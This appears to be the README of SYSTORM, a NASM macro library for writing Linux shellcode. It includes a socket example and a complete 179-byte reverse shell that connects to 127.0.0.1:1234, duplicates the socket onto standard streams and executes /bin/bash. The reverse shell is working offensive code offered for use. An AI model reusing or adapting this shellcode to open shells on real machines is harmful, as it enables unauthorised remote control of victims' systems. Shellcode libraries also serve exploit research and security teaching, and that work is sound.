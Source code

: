 # SYSTORM
NASM Standard Library for shellcode
---
https://scorchsecurity.wordpress.com/2016/07/31/nasm-and-friends/

##Usage:
To use functions defined within the .inc files, you have to include that file: `%include "syscall.inc"`
If using "thread.inc", "socket.inc", or "utils.inc", you have to include each function that you want to use.
For example: write `use.thread.create` to use thread.create.

A simple program is:
```
%include "syscall.inc"
; %include "thread.inc"
%include "socket.inc"
%include "utils.inc"

global _start
; _start goes first
_start:
    jmp main

; syscalls do not need to be included with 'use.*'
use.sock.socket
use.sock.connect

main:
	stackframe 4

	sock.socket AF_INET, SOCK_STREAM
	mov dword [ebp-4], eax
	sock.connect dword [ebp-4], AF_INET, 0x0101017F, 0xD204	; 127.0.0.1, 1234

	inline 'Hello!', 0xa			; places addr of 'Hello!\n' into eax
	
	sys.write dword [ebp-4], eax, 7	; write 'Hello!\n' to sockfd
	sys.close dword [ebp-4]			; close sockfd
	
	leave
	sys.exit 0
```
As is evident, systorm defines a number of macros that can be used to perform useful operations, like including inline data and setting up stackframes.

Additionally, all syscalls (prefixed with "sys.") are set up as macros, so they do not need to be included like other functions.

A simple reverse shell (179 bytes) is:
```
%include "syscall.inc"
%include "socket.inc"
%include "utils.inc"

global _start
_start:
    jmp main

use.sock.socket
use.sock.connect

main:
    stackframe 4

    sock.socket AF_INET, SOCK_STREAM
    mov dword [ebp-4], eax
    sock.connect dword [ebp-4], AF_INET, 0x0101017F, 0xD204	; 127.0.0.1, 1234s
    mov ecx, 2
.dup_loop:
    sys.dup2 [ebp-4], ecx
    dec ecx
    jns .dup_loop
exec:
    inline '/bin/bash', 0
    sys.execve eax, 0, 0
    sys.exit 0
```

